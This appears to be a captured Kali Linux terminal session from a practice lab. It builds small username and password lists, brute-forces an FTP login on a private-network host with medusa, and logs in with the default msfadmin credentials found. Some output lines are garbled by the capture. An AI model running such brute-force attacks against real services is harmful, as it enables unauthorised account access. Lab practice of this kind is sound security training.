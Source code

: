 ┌──(root㉿kali)-[/home/kali]
└─# cd          
                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# echo -e "user\nmsfadmin\nadmin\root" > user.txt
                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# echo -e "123456\nmsfadmin\nqwerty\npassword" > pass.txt
                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# ls
pass.txt  user.txt
                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# pwd
/root
                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# medusa -h 192.168.57.3 -U user.txt -P pass.txt -M ftp -t 6
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-24 14:10:49 ACCOUNT CHECK: [ftp] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: msfadmin (1 of 4 complete)
2025-10-24 14:10:49 ACCOUNT FOUND: [ftp] Host: 192.168.57.3 User: msfadmin Password: msfadmin [SUCCESS]
oot (3 of 3, 2 complete) Password: 123456 (1 of 4 complete) (1 of 1, 0 complete) User: admin
oot (3 of 3, 2 complete) Password: msfadmin (2 of 4 complete)1 of 1, 0 complete) User: admin
oot (3 of 3, 2 complete) Password: qwerty (3 of 4 complete) (1 of 1, 0 complete) User: admin
2025-10-24 14:10:52 ACCOUNT CHECK: [ftp] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 2 complete) Password: qwerty (1 of 4 complete)
2025-10-24 14:10:52 ACCOUNT CHECK: [ftp] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-24 14:10:52 ACCOUNT CHECK: [ftp] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 3 complete) Password: msfadmin (3 of 4 complete)
2025-10-24 14:10:52 ACCOUNT CHECK: [ftp] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-24 14:10:52 ACCOUNT CHECK: [ftp] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 3 complete) Password: password (4 of 4 complete)
oot (3 of 3, 3 complete) Password: password (4 of 4 complete)1 of 1, 0 complete) User: admin
                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# ftp 192.168.57.3                                        
Connected to 192.168.57.3.
220 (vsFTPd 2.3.4)
Name (192.168.57.3:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> exit
221 Goodbye.
                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# cd /home/kali 
                                                                                                                                                                      